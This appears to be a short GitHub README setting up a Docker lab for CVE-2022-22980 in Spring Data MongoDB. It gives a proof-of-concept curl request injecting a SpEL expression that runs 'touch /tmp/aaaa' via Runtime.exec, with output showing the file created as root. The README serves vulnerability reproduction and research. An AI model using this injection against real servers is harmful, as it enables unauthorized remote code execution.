 # Spring-Data-Mongodb-Example

CVE-2022-22980环境

## Build docker environment
```bash
docker build  -t mongo .
docker run -dit -p 6666:6666 mongo
```

## Poc
```bash
➜  Spring-Data-Mongodb-Example git:(main) curl 0:6666/v1/user/get -d 'id=T(java.lang.Runtime).getRuntime().exec("touch /tmp/aaaa")'
{"timestamp":"2022-07-14T01:54:10.828+00:00","status":500,"error":"Internal Server Error","path":"/v1/user/get"}
➜  Spring-Data-Mongodb-Example git:(main) docker exec -it 3a ls -la /tmp
total 4
drwxrwxrwt    5 root     root           123 Jul 14 01:54 .
drwxr-xr-x   19 root     root          4096 Jul 14 01:53 ..
-rw-r--r--    1 root     root             0 Jul 14 01:54 aaaa
```
